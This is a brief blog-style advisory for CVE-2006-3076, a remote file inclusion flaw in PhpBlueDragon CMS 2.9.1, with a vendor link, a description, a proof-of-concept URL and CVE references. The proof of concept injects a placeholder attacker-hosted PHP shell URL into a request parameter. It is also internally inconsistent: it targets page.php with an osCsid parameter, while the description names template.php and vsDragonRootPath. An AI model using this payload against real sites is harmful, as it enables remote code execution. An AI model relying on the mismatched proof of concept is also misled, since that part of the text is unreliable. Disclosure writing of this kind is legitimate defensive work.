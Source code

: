 ```yaml
---
layout: post
title:  "CVE-2006-3076 – PhpBlueDragon CMS 2.9.1 Remote File Inclusion"
date:   2006-06-14 00:00:00
categories: security
permalink: post/CVE-2006-3076-phpbluedragon-cms-remote-file-inclusion/
---
```


### Vendor

[http://phpbluedragon.net/][phpbluedragoncms]

[phpbluedragoncms]:	http://phpbluedragon.net/	"PHPBlueDragonCMS"

> Php Blue Dragon CMS is a web-based content management system implemented in PHP.

### Description

PHP remote file inclusion vulnerability in `software_upload/public_includes/pub_templates/vphptree/template.php` in `PhpBlueDragon CMS 2.9.1` allows remote attackers to execute arbitrary PHP code via a URL in the vsDragonRootPath parameter.

### Proof of Concept

**~** stands for `[php-shell-url]`

1. http://localhost/shop/page.php?osCsid=
**~**

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076][mitre]
* [http://www.securityfocus.com/bid/18440][securityfocus]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076 "CVE-2006-3076"
[securityfocus]:	http://www.securityfocus.com/bid/18440						"SecurityFocus-18440"
